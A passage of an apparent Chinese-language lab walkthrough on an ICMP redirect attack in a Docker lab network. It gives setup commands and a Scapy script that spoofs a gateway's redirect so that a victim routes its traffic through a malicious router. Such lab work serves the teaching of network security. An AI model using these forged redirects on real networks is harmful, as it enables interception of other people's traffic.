 启动 docker：

```shell
dcbuild
dcup
```

首先修改 shell 以便查看：

```shell
# export PS1="\w victim-10.9.0.5$ "
```

```shell
# export PS1="\w attacker-10.9.0.105$ "
```

```shell
# export PS1="\w host-192.168.60.5$ "
```

```shell
# export PS1="\w malicious-router-10.9.0.111$ "
```

首先在 victim 上查看到 `192.168.60.5` 的路由：

```shell
victim-10.9.0.5$ mtr -n 192.168.60.5
```

![Launching ICMP Redirect Attack 正常路由](/assets/post/images/icmp2.webp)

这里的路由是正常的。

然后保持其 ping `192.168.60.5：`

```shell
victim-10.9.0.5$ ping 192.168.60.5 &
```

编写 `icmp.py`：

```python
#!/usr/bin/python3

from scapy.all import *

ip = IP(src = '10.9.0.11', dst = '10.9.0.5')
icmp = ICMP(type=5, code=1)
icmp.gw = '10.9.0.111'

# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = '10.9.0.5', dst = '192.168.60.5')
send(ip/icmp/ip2/ICMP());
```
